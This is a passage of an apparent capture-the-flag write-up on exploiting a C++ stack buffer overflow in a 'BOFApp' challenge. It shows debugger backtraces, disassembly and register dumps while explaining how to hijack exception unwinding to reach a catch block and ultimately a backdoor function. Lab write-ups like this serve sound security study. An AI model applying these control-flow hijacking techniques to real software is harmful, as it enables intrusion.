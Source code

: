 ```
──────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0         0x404056 __cxa_throw+54
   1         0x402178 raise(char const*)+83
   2         0x4026b2 ProtectedBuffer<64ul>::check()+62
   3         0x4024e3 void ProtectedBuffer<64ul>::mut<BOFApp::launch()::{lambda(char*)#1}>(BOFApp::launch()::{lambda(char*)#1} const&)+51
   4         0x40245a BOFApp::launch()+62
   5       0xdeadbeef
   6       0xdeadbeef
   7       0xdeadbeef
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
So, if we want to continue the flow execution in main, we much provide exactly where the address of the catch block is, so we can continue to exploit it that don't terminate program.
    
I have found out the address `0x4022de` that make the program continue execution because it is where the catch block lie. 
    
```
  0x41acdd <_Unwind_RaiseException+909>    mov    r14, qword ptr [rbp - 0x10]
   0x41ace1 <_Unwind_RaiseException+913>    mov    r15, qword ptr [rbp - 8]
   0x41ace5 <_Unwind_RaiseException+917>    mov    rbp, qword ptr [rbp]
   0x41ace9 <_Unwind_RaiseException+921>    mov    rsp, rcx
   0x41acec <_Unwind_RaiseException+924>    pop    rcx
 ► 0x41aced <_Unwind_RaiseException+925>    jmp    rcx                           <main+116>
    ↓
   0x4022f1 <main+116>                      endbr64 
   0x4022f5 <main+120>                      mov    rbx, rax
   0x4022f8 <main+123>                      lea    rax, [rbp - 0x18]
   0x4022fc <main+127>                      mov    rdi, rax
   0x4022ff <main+130>                      call   std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()                      <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()>
``` 

We successfully changed its flow!  it will call to `exit()` to terminate the program without return.  How can we execute the `backdoor()` function?
 
Afterwards, the program will proceed to execute the destructor method of this particular object. Let's delve deeper into this process:

```
0x4022f1 <main+116>                      endbr64 
   0x4022f5 <main+120>                      mov    rbx, rax
   0x4022f8 <main+123>                      lea    rax, [rbp - 0x18]
   0x4022fc <main+127>                      mov    rdi, rax
 ► 0x4022ff <main+130>                      call   std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()                      <std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()>
        rdi: 0x7ffe1006ece8 —▸ 0x7ffe1006ed40 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
        rsi: 0x4022f1 (main+116) ◂— endbr64 
        rdx: 0x1
        rcx: 0x4022f1 (main+116) ◂— endbr64     
```
